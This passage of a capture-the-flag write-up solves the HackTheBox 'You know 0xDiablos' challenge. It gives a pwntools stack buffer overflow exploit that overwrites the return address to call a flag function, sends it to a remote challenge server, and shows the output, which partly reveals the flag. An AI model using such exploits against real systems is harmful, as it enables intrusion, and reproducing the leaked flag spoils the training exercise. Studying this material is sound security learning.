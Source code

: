Lastly, we can change the connection to the actual server given to us instead of creating a process of the local vuln file.

```python
from pwn import *

context.update(arch="i386", os="linux")

elf = ELF("./vuln")

# offset to reach right before return address's location
offset = b"A" * 188

# craft exploit: offset + flag() + padding + parameter 1 + parameter 2
exploit = offset + p32(elf.symbols['flag'], endian="little") + p32(0x90909090) + p32(0xdeadbeef, endian="little") + p32(0xc0ded00d, endian="little")

r = remote("178.62.61.23", 32355)
#r = elf.process()
r.sendlineafter(":", exploit)
r.interactive()
```
Here, we go...
```
└─$ python exploit.py
[*] '/home/kali/Desktop/HackTheBox/Beginner-Path/You-know-0xDiablos/vuln'
[*] '/home/kali/Desktop/HackTheBox/Beginner-Path/You-know-0xDiablos/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Opening connection to 178.128.37.153 on port 31718: Done
/home/kali/.local/lib/python3.10/site-packages/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode
 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd0\xde\xc0AAAAAAAAAAAAAAAAAAAA\xe2\x9\x90\x90\x90\x90ﾭ\xdeBuff3r_1s_not_healthy}[*] Got EOF while reading in interactive
HTB{REDACTED}[*] Got EOF while reading in interactive
 

```

